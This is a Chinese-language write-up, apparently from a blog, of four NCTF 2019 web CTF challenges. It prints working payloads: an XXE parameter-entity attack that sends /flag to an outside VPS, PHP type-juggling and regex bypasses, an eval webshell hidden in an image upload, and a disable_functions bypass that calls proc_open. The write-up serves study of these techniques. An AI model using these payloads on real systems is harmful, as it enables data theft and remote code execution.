


题目挺好玩的，很多不会，慢慢写还是有点思路的，学到了很多新知识。
1.Fake XML cookbook
测试了一下，没有回显，所以进行参数实体的注入，在vps上放一个xml文件，让它加载，文件内容如下
1 | <!ENTITY % payload "<!ENTITY % send SYSTEM 'http://47.103.62.94:8080/?content=%file;'>"> %payload; |
因为题目提示了flag is in /flag，所以构造请求的xml内容如下
1 | xml version="1.0" <!DOCTYPE test[ <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=../../../flag"> <!ENTITY % dtd SYSTEM "http://47.103.62.94:8080/evil.xml"> %dtd; %send; ]> |

最后把content的内容base64解码即是flag
2.easyphp
是一个函数绕过题，挺好玩的，
1st
1 | if($_GET['num'] !== '23333' && preg_match('/^23333$/', $_GET['num'])){ |
可以给num传23333%0a就可以绕过%0a是换行的意思
2nd
1 | if(is_numeric($string_1)){ |
弱类型比较，当两个字符串以0e开头且全为数字时，==会判断他们相等，返回bool(true)，如

所以就有思路啦，需要$string_1是数字，$string_1和$string_2的md5值不等，但把$string_1和$string_2进行md5算法后的值’cxhp’替换为’0123’后，$a==$b，所以我们可以找出数字，md5算法后的值为0e或ce开头，且内容全为数字或’cxhp’，写个脚本跑了一下跑出一个数字，两个字符满足要求，脚本如下，然后让str1=2120624&str2=0yFCJ即可绕过第二步。
1 | 0yFCJ 0dmRZ 2120624 |
1 | import hashlib |
3rd
1 | $query = $_SERVER['QUERY_STRING']; |
这个是要让请求的字符串中不能含_和%5f(%5f为_的url编码)，但又要对q_w_q传值。。。开始想了很久没有思路，问了大佬，他说_可以用.来代替，没想到这样也可以学到了学到了，所以对q.w.q传值即可，然后就简单啦，令q.w.q=more *.*就可以啦，*是通配符，more以全屏幕的方式按页显示文本文件的内容
最终完整payload为
1 | http://nctf2019.x1ct34m.com:60005/?num=23333%0a&str1=2120624&str2=0yFCJ&q.w.q=more *.* |
3.Upload your Shell
看源码，发现了这个./index.php?action=imgs.html
点进去看了一下，就是上传点，有文件类型检测，做一个图片马，copy 1.jpg/b+2.php/a 1.jpg(文件包含解析b表示二进制，a表示ascii码)，然后发现不能有<?，这个之前考过，这样写就可以啦
1 | <script language="php">@eval($_POST['a']);</script> |
上传成功后给了个地址，action包含这个地址就可以啦，最终payload
1 | http://nctf2019.x1ct34m.com:60002/index.php?action=/var/www/html/upload-imgs/ed8c5de065c6151959b08babc2521a15/Th1s_is_a_fl4g.jpg |
4.hacker_backdoor
这个题目也是绕过，waf ban了所有函数和eval，assert，但是可以用字符串拼接绕过，这个题也学到了很多知识，原来eval也可以执行一段代码。
1 | http://nctf2019.x1ct34m.com:60004/?code=$a='php'.'info';%0a$a();&useful=index.php |
先看一下phpinfo()的disable_function，发现ban了很多函数还包括scandir，readfile，file_get_contents这样的函数（这里没仔细看，其实它放了一个命令执行函数proc_open）后面会发现这个问题，先不说，进行常规步骤，我是找替代scandir，readfile这样的函数，发现了glob函数和highlight_file函数可以使用。
1 | http://nctf2019.x1ct34m.com:60004/?code=$a='var_'.'dump';%0a$b='gl'.'ob';%0a$c='../../../*';%0a$a($b($c));&useful=index.php //遍历目录 |
1 | http://nctf2019.x1ct34m.com:60004/?code=$a='highl'.'ight_f'.'ile';%0a$c='../../../readflag';%0a$a($c);&useful=index.php //读取内容 |
本以为这样读flag就结束了，可是它竟然读不了。。。后来看到了readflag就知道是要用这个读啦，盲猜readflag的内容是cat /flag，所以想办法执行readflag就行了，返回去看disable_functions，ban了那么多函数，以为命令执行函数早被禁完了，但是最终发现没有ban proc_open函数，所以用它执行readflag命令，最终payload如下
1 | http://nctf2019.x1ct34m.com:60004/?code=$test="../../.././readflag";%0a$z='p'.'ipe';%0a$b='proc'.'_open';%0a$c='var_d'.'ump';%0a$d='strea'.'m_get_c'.'ontents';%0a$e='proc_c'.'lose';%0a$a=array(array("$z","r"),array("$z","w"),array("$z","w"));%0a$fp = $b($test,$a,$zs);%0a$c($d($zs[1]));%0a$e($fp);&useful=index.php |
这里涉及挺多函数的，等过几天把做题经常遇到的函数总结一下。